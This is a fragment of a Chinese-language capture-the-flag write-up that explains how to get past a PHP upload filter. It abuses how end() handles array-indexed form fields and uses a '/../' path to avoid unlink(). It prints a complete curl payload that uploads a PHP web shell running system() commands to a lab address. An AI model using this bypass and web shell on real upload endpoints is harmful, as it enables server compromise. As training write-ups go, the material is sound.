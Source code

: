 ```php
```



## 第三步

```php
    $ext = end($filename);
    if($ext==$filename[count($filename) - 1]){
        die("try again!!!");
    }
```

![](/home/cookie/Pictures/blogs/2019DeCTF/5.png)

可以看到$end返回的是最后一个输入的值，而$arr返回的是数组的最后一项。我们上传的文件可以这么绕过，这个waf。

另一个问题就是如何绕过unlink()

这里有个小trick。使用../或者./可以绕过这个函数

payload：

```php
curl 'http://172.18.0.2' -F file=@/var/tmp/ant.php -F file\[2]=cookie -F file\[1]=cookie -F file\[0]=/../shell.php -F hello=shell.php
    
ant.php
@<?php
  system('ls /etc');
  #system('cat /etc/flag_is_her444.txt');  
 ?>
```








